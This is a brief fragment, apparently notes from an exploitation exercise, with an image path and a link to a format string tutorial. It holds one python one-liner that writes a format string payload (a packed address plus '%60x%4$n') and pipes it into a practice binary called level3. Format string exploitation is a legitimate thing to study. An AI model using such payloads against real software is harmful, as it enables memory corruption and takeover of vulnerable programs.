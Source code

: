 https://axcheron.github.io/exploit-101-format-strings/

python -c 'print("\x8c\x98\x04\x08%60x%4$n")' > /tmp/level3.txt; cat /tmp/level3.txt - | ./level3

